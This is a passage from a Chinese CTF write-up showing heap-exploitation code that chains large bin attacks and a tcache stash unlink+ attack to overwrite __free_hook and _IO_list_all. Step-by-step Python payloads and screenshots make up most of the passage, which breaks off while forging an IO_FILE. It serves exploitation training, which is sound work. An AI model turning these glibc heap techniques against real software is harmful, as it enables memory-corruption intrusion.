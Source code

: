   ```python
   add(0,0x420)    # 构造 large bin attack
   add(1,0xc0)     # 隔开
   for i in range(8):
       add(4,0x400)    # 触发第二次的 large bin attack ，因为0x410大小的chunk会进入tcache，所以先占满
       free(4)
   add(1,0x400)
   free(0)
   add(1,0x430)    # 将chunk0放入large bin中
   
   target_addr = free_hook_addr-0x28
   payload0 = p64(addr + 0x3f0)*2 + p64(0) + p64(target_addr)
   edit(0,payload0)
   free(2)
   add(1,0x430)    # 将chunk1放入large bin中，触发attack 向target_addr写入堆地址
   
   # 构造 tcache stash unlink + 中small bin的bk指针 同时要保证small bin第一个chunk的链完整性
   fake_addr = target_addr + 8
   payload = p64(0)*113 + p64(0xb1) + p64(heap_base + 0x1320) + p64(fake_addr)
   edit(3,payload)
   
   # 触发 tcache stash unlink + 攻击 ，将包含free_hook的chunk放入tcache中 
   add(3,0xa0)     #申请一个small bin同等大小的chunk
   ```

   完成tcache stash unlink +的攻击条件：

   ![image-20240829113953412](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408291139609.png)

   申请同大小的small bin chunk，进行tcache stash unlink +攻击：

   ![image-20240829114132904](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408291141000.png)

3. 进行第二次large bin attack，覆盖IO_list_all为堆地址：

   ```python
   # ========== 第二次 large bin attack ==========
   target_addr = IO_list_all_addr-0x20
   payload = p64(0) + p64(heap_base + 0x1950)*2 + p64(target_addr)
   
   edit(0,payload)
   
   free(4)
   debug()
   add(1,0x430)    # 触发attack 向target_addr 即 _IO_list_all 写入当前堆地址
   ```

   ![image-20240829114308034](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408291143138.png)

   成功覆盖掉IO_list_all：

   ![image-20240829114344784](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408291143866.png)

   在该堆地址上伪造IO_FILE，满足条件：
